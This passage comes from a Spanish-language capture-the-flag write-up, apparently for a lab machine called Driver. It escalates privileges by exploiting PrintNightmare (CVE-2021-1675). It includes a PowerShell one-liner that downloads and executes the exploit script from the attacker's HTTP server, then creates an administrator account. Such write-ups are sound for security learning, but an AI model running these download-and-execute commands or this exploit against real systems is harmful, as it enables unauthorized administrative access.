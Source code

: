 buscando el [exploit](https://github.com/calebstewart/CVE-2021-1675) encontré uno muy bueno de powershell donde se aprovechará de la vulnerabilidad "PrintNightmare"

asi que me compartiré un servidor con python3 para proporcionar el "CVE-2021-1675.ps1"

![](/assets/img/commons/Driver/terminal13.png)

y con un one liner importaremos directamente la función de nuestro script malicioso el y se descargará el recurso que estamos compartiendo

```console
*Evil-WinRM* PS C:\Users\tony\privesc> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6/CVE-2021-1675.ps1')
```
y ahora solo basta con seguir los pasos que nos dice el repositorio del exploit para crear un nuevo usuario con la función Invoke-Nightmare y dicho usuario tendrá los privilegios de Administrador

![](/assets/img/commons/Driver/terminal14.png)
 
una vez creado observamos con crackmapexec si es válido nuestro usuario creado llamado droix

![](/assets/img/commons/Driver/terminal15.png)

y nos pone un pwned:D eso quiere decir que ya podemos autenticarnos como droix por winrm, acceder y tener los privilegios de Administrator y leer nuestra flag de root:)
